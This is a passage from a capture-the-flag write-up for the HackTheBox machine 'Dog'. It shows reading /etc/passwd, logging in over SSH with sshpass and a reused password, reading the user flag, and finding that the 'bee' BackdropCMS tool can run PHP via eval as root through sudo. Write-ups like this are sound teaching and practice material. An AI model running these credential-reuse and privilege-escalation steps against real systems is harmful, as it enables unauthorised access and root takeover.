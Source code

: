 Inspection of `/etc/passwd`:

```bash
cat /etc/passwd | grep '/home'
```

User presence:

```
johncusack:x:1001:1001::/home/johncusack:/bin/bash
```

SSH test with retrieved credentials:

```bash
sshpass -p 'BackDropJ2024DS2024' ssh johncusack@dog.htb
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        SSH connection successful \\! Password reuse confirmed.
    </p>
</div>

User flag:

```bash
cat /home/johncusack/user.txt
```


## 👑 Phase 8 — Privilege Escalation (sudo bee)

### a) Privilege verification

```bash
sudo -l
```

Output:

```
User johncusack may run the following commands on dog:
(ALL : ALL) /usr/local/bin/bee
```

<div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-exclamation-triangle mr-2 text-amber-500"></i>
        <strong>Critical discovery:</strong> The CLI tool <code>bee</code> can be executed as root without restriction.
    </p>
</div>

### b) Understanding the bee tool

`bee` is a BackdropCMS CLI tool — it allows execution of PHP commands via the `eval` argument.
